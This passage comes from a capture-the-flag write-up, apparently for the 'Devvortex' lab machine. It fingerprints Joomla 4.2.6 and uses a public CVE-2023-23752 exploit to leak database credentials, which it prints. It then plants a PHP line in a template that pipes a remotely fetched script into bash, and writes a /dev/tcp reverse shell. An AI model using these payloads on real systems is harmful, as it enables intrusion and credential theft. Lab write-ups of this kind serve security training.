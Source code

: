 ```bash
tmp
layouts
administrator
```
One we need to exploit is `administrator`directory. Go to `dev.devvortex.htb/administrator`and you are greeted with `login`page. This page works on `Joomla`which is written on the bottom of the page. Use program called `joomscan`to get the version of `joomla`:
```bash
joomscan -u http://dev.devvortex.htb

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 4.2.6
```
Version is `4.2.6`.
Then search exploit for `Joomla 4.2.6`and i got found `Github`repository for the exploit.
https://github.com/ThatNotEasy/CVE-2023-23752.git
I cloned it, then `pip install -r requirements.txt`and then started the script:
```python
[CVE-2023-23752] - Authentication Bypass Information Leak on Joomla!

[1] - Single Scan
[2] - Massive Scan

[CVE-2023-23752]: 1

IP/Domain: http://dev.devvortex.htb/

[CVE-2023-23752] - http://dev.devvortex.htb/ .: [Scanning!]

[+] Domain            : http://dev.devvortex.htb/
[+] Database Type     : mysqli
[+] Database Prefix   : sd4fg_
[+] Database          : joomla
[+] Hostname          : localhost
[+] Username          : lewis
[+] Password          : P4ntherg0t1n5r3c0n##
```
Password ---- `P4ntherg0t1n5r3c0n##`
Username ---- `lewis`
Use that credentials to login.
In `users`directory you can see that `lewis`is `superuser`.
To get the `reverse shell`you need to modify some code. I did it on `error.php`in `system > site templates > cassiopeia Details and Files > error.php` at the end of the script i added this script:
```php
<?php system("curl <your_ip>:<your_port>/<reverse shell script>.sh|bash"); ?>
```
You  will use this to curl the `reverse shell`script that will be on your `PC`, with `python server`.
Modify that script however you want. Then click `save and close.`Go to your terminal and locally create `shell.sh`:
```bash
echo -e '#!/bin/bash\nsh -i >& /dev/tcp/<your_ip>/<port> 0>&1' > shell.sh
```
file is created. Now in same directory start simple `http server`. Then with `curl`do this:
```bash
curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"
```
```
 -K, --config <file>
 Specify a text file to read curl arguments from. The command line arguments found in the text file are used as if they were provided on the command line.
```